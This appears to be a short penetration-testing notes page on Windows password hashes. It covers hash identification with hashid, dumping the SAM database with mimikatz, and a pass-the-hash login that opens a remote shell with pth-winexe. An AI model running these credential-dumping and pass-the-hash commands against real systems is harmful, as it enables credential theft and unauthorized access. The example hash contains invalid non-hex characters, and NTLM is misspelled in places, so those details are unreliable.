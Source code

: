 # Password Hashes

> Hashing is the process of converting a given key into another value. A hash function is used to generate the new value according to a mathematical algorithm. A good hash function uses a one-way hashing algorithm, or in other words, the hash cannot be converted back into the original key.

## Identifying Password Hashes

Once we have collected a hash we can try to discover which type of hash is by using the hashid tool:

```bash
hashid $HASH
```

## Windows LM & NTLM

Windows NT up to Windows 2003 store two different password hashes in the SAM: LM and NTLN. LM is very weak and a hash-lookup attack shouldn't be a problem (doesn't include salts). Let's take an example:

**Administrator:500:42f29043y123fa9c74f23606c6g522b0:71759a1bb2web4da43e676d6b7190711:::**

The LM is the hash in the left side and NTLM is the hash on the right side:

**LM:** 42f29043y123fa9c74f23606c6g522b0

**NTML:** 71759a1bb2web4da43e676d6b7190711

From Windows Vista, Windows disabled LM by default and uses NTLM. However, NTLM hashes stored in the SAM database are still not salted.

In order to dump the SAM database we can use mimikatz (under administrative command prompt) and execute, in order, the following commands:

```bash
mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
```

## Passing The Hash

Once we discovered a Windows HASH we can login into a remote machine using the user and hash we found (if the user exists).

```bash
#-U: user
#%aad3b435b51404eeaad3b435b51404ee: LM part (since hash should be LM:NTLM format).
pth-winexe -U $USER%aad3b435b51404eeaad3b435b51404ee:$NTLMHASH //$IPADDRESS cmd
```
